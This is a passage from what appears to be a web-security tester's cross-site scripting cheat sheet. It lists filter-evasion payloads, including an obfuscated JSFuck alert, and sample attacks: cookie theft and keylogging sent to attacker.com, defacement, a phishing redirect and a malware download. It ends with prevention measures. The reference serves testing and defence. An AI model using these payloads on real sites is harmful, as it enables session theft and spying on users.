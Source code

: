     * `<svg onload=alert&lpar;1&rpar;>` (HTML entities)
* **Double Encoded Input**: If input is URL decoded twice.
    * `%253Cscript%253Ealert(1)%253C/script%253E` (becomes `<script>alert(1)</script>`)
* **Null Bytes**:
    * `<img src="x%00" onerror="alert(1)">`
* **Removing Spaces**: Use `/` or newlines.
    * `<img/src=x%0Aonerror=alert(1)>`
* **Non-Alphanumeric**: For contexts like `eval()`.
    * `[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]]+([][[]]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+([![]]+[][[]])[+[]]+(!![]+[])[!+[]+!+[]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]][([][[]]+[])[+!+[]]+(![]+[])[+[]]+(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+[]]+(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+(![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]])()` becomes `alert(1)`

### XSS Use Cases (What can an attacker do?)

* **Cookie Exfiltration**:
    * `javascript:void(fetch('http://attacker.com/cookie.php?data=' + document.cookie))`
* **Defacement**:
    * `<script>document.body.innerHTML = '<h1>Hacked By Attacker!</h1>';</script>`
* **Redirect to Phishing Site**:
    * `<script>window.location.replace('http://malicious-phishing-site.com');</script>`
* **Keylogging (via JS)**:
    * `<script>document.addEventListener('keypress', function(e) { fetch('http://attacker.com/log?key=' + e.key); });</script>`
* **AJAX Requests within Victim's Session**:
    * `<script>var xhr = new XMLHttpRequest(); xhr.open('GET', '/sensitive/data', true); xhr.send(null);</script>`
* **Port Scanning from Client Browser**:
    * A more advanced technique involving JS and WebSockets/WebRTC to scan internal network ports accessible from the victim's browser.
* **Malware Download**:
    * `<script>window.location.href='http://attacker.com/malware.exe'</script>` (initiates download)

### XSS Prevention (Important for Testers to Know)

* **Output Encoding/Escaping**: The most critical defense. Convert user-controlled input into a safe format before rendering it in HTML.
    * **HTML Entity Encoding**: For data within HTML content. Convert `<`, `>`, `&`, `"`, `'` to `&lt;`, `&gt;`, `&amp;`, `&quot;`, `&#x27;`.
    * **JavaScript String Escaping**: For data within `<script>` blocks or JavaScript event handlers.
    * **URL Encoding**: For data within URLs.
    * **CSS Escaping**: For data within CSS.
* **Content Security Policy (CSP)**: A powerful HTTP response header that whitelists trusted sources of content (scripts, styles, images, etc.). This significantly mitigates XSS by restricting what scripts can run.
    * `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;`
* **Input Validation**: Although not a primary defense against XSS (encoding is), validating input can help prevent malformed data from reaching the output stage.
* **HTTPOnly Flag for Cookies**: Prevents client-side scripts from accessing cookies, mitigating session hijacking even if XSS occurs.
* **Secure Coding Practices**: Avoid writing dynamic JavaScript that directly inserts user input into the DOM using `innerHTML` or `document.write`. Use `textContent` or `innerText` where possible.
* **WAF (Web Application Firewall)**: Can detect and block common XSS attack patterns, but should not be the sole defense.

---